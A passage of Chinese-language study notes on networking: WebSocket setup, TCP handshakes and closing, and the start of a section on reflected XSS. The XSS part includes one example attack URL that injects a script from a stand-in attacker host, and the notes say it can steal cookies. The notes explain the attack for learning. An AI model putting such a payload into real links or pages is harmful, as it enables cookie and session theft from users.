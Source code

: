         1. 使用：ws模块,
          - 客户端也可使用原生webspcket:
            - const ws = new websocket('ws://localhost:8080');
        2. 或者 socket.io包 实现双工
    - 客户端：
    - 服务端：

## TCP/IP
- TCP 位于传输层，提供可靠的字节流服务。
所谓的字节流服务（Byte StreamService）是指，为了方便传输，将大块数据分割成以报文段（segment）为单位的数据包进行管理。而可靠的传输服务是指，能够把数据准确可靠地传给对方。一言以蔽之，TCP协议为了更容易传送大数据才把数据分割，而且 TCP 协议能够确认数据最终是否送达到对方。为了准确无误地将数据送达目标处，TCP 协议采用了三次握手（three-way handshaking）策略
- TCP如何保证传输的可靠性[??]
  - 3次握手
  - 重传机制

### 3次握手
- 其实本质上 是 2个连接：
  - 客户端 -> 服务端
  - 服务端 -> 客户端
- 本质上建立2个连接 也是需要4次握手的，但是 中间 服务端回复客户端的握手时，也向客户端发出了建立：服务端 -> 客户端 的请求
### 4次挥手
### 为什么需要4次挥手
- 前2次挥手：断开了客户端向服务端发送请求的链接，
- 但是 此时 服务端可能数据还未发送完，等到服务端将数据给客户端发送完后，服务端再主动向客户端挥手，断开 服务端到客户端的连接

### TCP 队头拥塞

### TCP VS UDP
- https://jaminzhang.github.io/network/The-Difference-Between-TCP-And-UDP-Protocol/

## DNS

## 网络安全

### XSS
- cross site scripting: 跨站脚本注入
- [web安全](https://febook.hzfe.org/awesome-interview/book1/network-security)
- 与客户端比较相近
- 本质上 都是注入攻击：就是一段非法的js在客户端执行了

#### 类型

##### 反射型
    - 原理：攻击者通过在 URL 插入恶意代码，其他用户访问该恶意链接时，服务端在 URL 取出恶意代码后拼接至 HTML 中返回给用户浏览器。
    - 攻击脚本代码在url中
    - eg：
    ```md
      1. 攻击者诱导被害者打开链接 hzfe.org?name=<script src="http://a.com/attack.js"/>。
      2. 被攻击网站服务器收到请求后，未经处理直接将 URL 的 name 字段直接拼接至前端模板中，并返回数据。
      3. 被害者在不知情的情况下，执行了攻击者注入的脚本（可以通过这个获取对方的 Cookie 等）。
    ```
    